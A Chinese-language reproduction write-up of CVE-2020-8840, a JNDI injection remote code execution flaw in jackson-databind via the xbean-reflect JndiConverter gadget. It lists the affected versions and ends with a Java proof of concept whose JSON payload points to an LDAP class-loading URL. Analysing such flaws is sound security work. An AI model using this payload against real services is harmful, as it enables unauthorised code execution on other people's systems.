


# （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

> 原文：[http://book.iwonder.run/0day/FasterXML jackson/CVE-2020-8840.html](http://book.iwonder.run/0day/FasterXML jackson/CVE-2020-8840.html)

## 一、漏洞简介

`FFasterXML/jackson-databind`是一个用于 JSON 和对象转换的 Java 第三方库，可将 Java 对象转换成 json 对象和 xml 文档，同样也可将 json 对象转换成 Java 对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发 JNDI 远程类加载从而达到远程代码执行。

## 二、漏洞影响

*   jackson-databind 2.0.0 – 2.9.10.2
*   经验证 fastjson 在开启了 autoType 功能的情况下，影响最新的 fastjson v1.2.62 版本

## 三、复现过程

可以在 git 提交记录中清楚看到利用的具体类


分析下利用链，通过传进参数`asText`，触发 setter，`setAsText()`函数


随后跟进`toObject()`函数


最终进到`JndiConverter`重写的`toObjectImp()`函数



此时出现经典的 JNDI 注入，text 刚好就是我们传进的 asText，我们可控，从而达到命令执行目的



### poc

```
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {
    public static void main(String args[]) {
        ObjectMapper mapper = new ObjectMapper();

        mapper.enableDefaultTyping();

        String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

        try {
            mapper.readValue(json, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
} 
```

